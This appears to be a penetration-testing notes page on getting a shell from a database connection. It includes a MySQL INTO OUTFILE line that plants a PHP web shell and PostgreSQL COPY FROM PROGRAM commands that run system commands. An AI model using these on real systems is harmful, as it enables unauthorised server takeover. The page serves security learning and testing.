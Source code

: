 ```yaml
---
description: You have a connection to a database. How can you get a shell from that?
---
```


# Get a Shell From DB Connection

## Write a Web Shell

Prerequisites:

* A web server that supports PHP or ASP is installed on the same server
* The database user has write permissions in a directory from where PHP or ASP can be executed through the web server

Many databases can write files to the local system. So if possible, write a web shell to the web server.

Mysql example:

```
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'
```

## Databases Support Command Execution

Some databases support command execution, so you can just use that. Always check whether the database system supports running commands, or whether there are CVEs or methods for running shell commands for that specific DB.

Prerequisite:

* Connection to a database system that supports command execution
* May require certain privileges as the user you're connecting to

### PostgreSQL Intended Command Execution

Prerequisites:
* Heightened privileges:
  * Database superuser
  * Or any user in the `pg_execute_server_program` group

First, the attacker needs to create a table to hold the system command's output.

```
> CREATE TABLE cmd_exec(cmd_output text);
```

Then, they can run the system command via the COPY TO/FROM PROGRAM function.

```
> COPY cmd_exec FROM PROGRAM 'id';
```

Run longer commands like this:

```
> COPY cmd_exec FROM PROGRAM 'touch /tmp/test';
```

### PostgreSQL Command Execution Using Extensions

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions" %}

Prerequisites:
  * In **older** versions (9.x, 8.x), the DB user must have permissions to **write to the `/tmp` directory**, and have permissions to  **source UDF Shared Libraries** from there as well.
  * In **newer** versions (>=11, perhaps?), also requires **superadmin** privileges

Method:
* With postgres 8.x, use the [metasploit module](https://www.rapid7.com/db/modules/exploit/linux/postgres/postgres_payload/)
* With 9.x, you'll have to [compile the library](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions#compile-the-library)


